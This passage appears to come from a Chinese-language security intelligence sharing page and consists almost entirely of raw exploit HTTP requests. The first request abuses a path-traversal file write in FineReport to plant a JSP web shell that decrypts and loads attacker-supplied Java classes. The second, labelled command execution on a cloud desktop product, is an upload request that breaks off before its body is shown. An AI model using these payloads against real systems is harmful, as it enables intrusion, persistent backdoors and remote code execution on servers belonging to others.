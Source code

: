     POST  /WebReport/ReportServer?  
    op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp  HTTP/1.1
    Host:  192.168.169.138:8080
    User-Agent:  Mozilla/5.0  (Windows  NT  10.0;  Win64;  x64)  AppleWebKit/537.36  (KHTML,  like  Gecko)  
    Chrome/81.0.4044.92  Safari/537.36
    Connection:  close
    Accept-Au:  0c42b2f264071be0507acea1876c74
    Content-Type:  text/xml;charset=UTF-8
    Content-Length:  675 
    {"__CONTENT__":"<%@page  import=\"java.util.*,javax.crypto.*,javax.crypto.spec.*\"%><%!class  U  extends  
    ClassLoader{U(ClassLoader  c){super(c);}public  Class  g(byte  []b){return  
    super.defineClass(b,0,b.length);}}%><%if(request.getParameter(\"pass\")!=null)  {String  
    k=(\"\"+UUID.randomUUID()).replace(\"-
    \",\"\").substring(16);session.putValue(\"u\",k);out.print(k);return;}Cipher  
    c=Cipher.getInstance(\"AES\");c.init(2,new  
    SecretKeySpec((session.getValue(\"u\")+\"\").getBytes(),\"AES\"));new  
    U(this.getClass().getClassLoader()).g(c.doFinal(new  
    sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInsta  
    nce().equals(pageContext);%>","__CHARSET__":"UTF-8"}

![图片](2021.4.8%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/640.png)

**和信创天云桌面命令执行**

    POST /Upload/upload_file.php?l=1 HTTP/1.1
    Host: x.x.x.x
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
    Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
    Referer: x.x.x.x
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
    Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
    Connection: close
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
    Content-Length: 164
    